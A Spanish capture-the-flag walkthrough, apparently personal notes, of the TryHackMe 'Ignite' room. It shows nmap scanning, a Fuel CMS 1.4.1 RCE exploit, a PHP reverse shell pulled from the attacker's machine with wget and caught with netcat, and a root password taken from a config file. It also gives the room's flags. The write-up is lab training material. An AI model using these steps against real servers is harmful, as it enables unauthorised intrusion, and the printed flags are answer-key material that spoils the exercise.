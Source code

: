# Ignite 

https://tryhackme.com/room/ignite

## NMAP

Hacemos un escaneo con `nmap` para ver las versiones también.

```
nmap -sV 10.10.98.176
```

![[Pasted image 20250204104650.png]]

Sólo escanea los puertos más comunes por defecto así que usamos la opción `-p-` para probar con todos.

Para detectar el SO y la versión del mismo usamos `-O`:

```
sudo nmap -sV -O 10.10.98.176
```
No nos da resultados y es algo normal que eso suceda.

También podemos modificar los tiempos entre los paquetes para que sea más difícil detectarlos. El modo 5 es el más agresivo y el 1 es el más "paranoico". Entre 3 y 4 es lo más normal y está en t3 por defecto.

```
sudo nmap -sV -O -T4 10.10.98.176
```

![[Pasted image 20250204105623.png]]

## Fuzzing 

Accedemos a la página web y usamos `DirBuster` para hacer fuzzing a la URL mientras seguimos inspeccionando el contenido de la página.

![[Pasted image 20250212170404.png]]

Descubrimos un login:

![[Pasted image 20250212170436.png]]

El fuzzing nos da los mismos resultados:

![[Pasted image 20250212170557.png]]

## /fuel/

Accedemos pues a `/fuel` y entramos con el usuario y contraseñas indicados.

![[Pasted image 20250212170659.png]]

Accedimos a un panel de administración del sitio web.

![[Pasted image 20250212170830.png]]

En la pestaña de `assets` podemos subir un archivo.

![[Pasted image 20250212172318.png]]

Nos aprovecharemos de esto ahora mismo.

## Reverse Shell

Usaremos la siguiente reverse shell de PHP:

https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

La modificamos con la IP de la VPN de nuestro Kali y el puerto 4444:

![[Pasted image 20250212172546.png]]

La página sólo permite subir archivos .zip pero podemos hacer que se descompriman automáticamente al subirlos.



Ponemos en escucha el puerto 4444:

```
nc -lvnp 4444
```

## exploit-db

Buscamos la vulnerabilidad de "fuel CMS" y encontramos la de la versión 1.4.1 de Remote Code Execution.

![[Pasted image 20250212182655.png]]

Nos descargamos el exploit.

![[Pasted image 20250212182715.png]]

Lo ejecutamos con el siguiente comando y accedemos al sistema finalmente.

![[Pasted image 20250212182759.png]]

Aunque es una shell muy limitada actualmente, no nos permite hacer casi nada.

Buscamos pues una reverse shell de php.

![[Pasted image 20250220172524.png]]

Nos la descargamos y editamos unos parámetros. La IP es la de nuestro Kali en la VPN de Tryhackme, 10.8.3.33 y el puerto 5000.

![[Pasted image 20250220172721.png]]

Abrimos una consola de`netcat`en escucha para el puerto 5000.

```
nc -lvnp 5000 
```

![[Pasted image 20250220172838.png]]

También abrimos un servidor http con Python por el puerto 9000.

```
python3 -m http.server 9000
```

>IMPORTANTE: La reverse shell de php que vamos a utilizar tiene que estar en la misma carpeta desde la que abrimos el servidor de python.

![[Pasted image 20250220173032.png]]

Hacemos clic en "RAW" en la página de github de antes de la reverse shell de php y copiamos la URL. 

![[Pasted image 20250220173141.png]]

```
https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php
```

Nos descargamos en el servidor la reverse shell que editamos.

```
wget http://10.8.3.33:9000/shell.php
```

![[Pasted image 20250220174600.png]]

![[Pasted image 20250220174621.png]]

Accedemos a la URL del archivo que hemos subido de php. La página se quedará cargando cuando se haya establecido la conexión.

![[Pasted image 20250220174734.png]]

En el puerto que abrimos en escucha con `netcat`hemos establecido la conexión.

![[Pasted image 20250220180034.png]]

Obtenemos la primera **flag**:

![[Pasted image 20250220180225.png]]

```
6470e394cbf6dab6a91682cc8585059b
```

## Escalada de privilegios

Ahora vamos a hacer una escalada de privilegios. Nos dirigimos a la siguiente ruta donde está la base de datos.

```
cd /var/www/html/fuel/application/config
```

Y mostramos el fichero `database.php`. En él están las credenciales del usuario `root`.

![[Pasted image 20250220180945.png]]

Hacemos más interactiva la terminal con el siguiente comando de python:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Accedemos ahora si al usuario `root`.

```
su root
```

Y la contraseña es `mememe`.

![[Pasted image 20250220182137.png]]

Finalmente, obtenemos la última flag que se encuentra en la carpeta `root`y en el fichero `root.txt`.

![[Pasted image 20250220182314.png]]

```
b9bbcb33e11b80be759c4e844862482d
```






























